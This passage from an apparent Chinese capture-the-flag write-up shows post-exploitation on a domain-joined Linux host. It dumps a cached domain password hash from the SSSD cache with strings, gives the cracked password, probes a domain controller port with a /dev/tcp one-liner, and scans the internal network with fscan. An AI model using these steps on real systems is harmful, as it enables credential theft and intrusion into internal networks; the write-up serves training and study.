 查看 SSSD 配置文件: `/etc/sssd/sssd.conf`

    root@icinga:/var/lib/sss/db# cat /etc/sssd/sssd.conf
    cat /etc/sssd/sssd.conf

    [sssd]
    domains = cerberus.local
    config_file_version = 2
    services = nss, pam

    [domain/cerberus.local]
    default_shell = /bin/bash
    ad_server = cerberus.local
    krb5_store_password_if_offline = True
    cache_credentials = True
    krb5_realm = CERBERUS.LOCAL
    realmd_tags = manages-system joined-with-adcli
    id_provider = ad
    fallback_homedir = /home/%u@%d
    ad_domain = cerberus.local
    use_fully_qualified_names = True
    ldap_id_mapping = True
    access_provider = ad

### 搜索有用文件

    root@icinga:/var/lib/sss/db# strings cache_cerberus.local.ldb
    ......
    ......
    name=matthew@cerberus.local,cn=users,cn=cerberus.local,cn=sysdb
    ......
    cachedPassword
    $6$6LP9gyiXJCovapcy$0qmZTTjp9f2A0e7n4xk0L6ZoeKhhaCNm0VGJnX/Mu608QkliMpIy1FwKZlyUJAZU3FZ3.GQ.4N6bb9pxE3t3T0
    ......
    cachedPassword
    $6$6LP9gyiXJCovapcy$0qmZTTjp9f2A0e7n4xk0L6ZoeKhhaCNm0VGJnX/Mu608QkliMpIy1FwKZlyUJAZU3FZ3.GQ.4N6bb9pxE3t3T0

使用 john 破解 hash: **matthew/147258369**

![](https://i.328888.xyz/2023/04/12/iXjFkN.png)

## 内网隧道 chisel 转发端口

**使用一行命令可以简单的探测端口**

```shell
(echo '' > /dev/tcp/172.16.22.1/5985) 2>/dev/null && echo "[+] Puerto abierto"
```

当然，也可以上传 **fscan** 工具对域控机器进行端口扫描

```shell
./fscan -h 172.16.22.1/24
./fscan -h 172.16.22.1 -nobr -p 1-65535
```
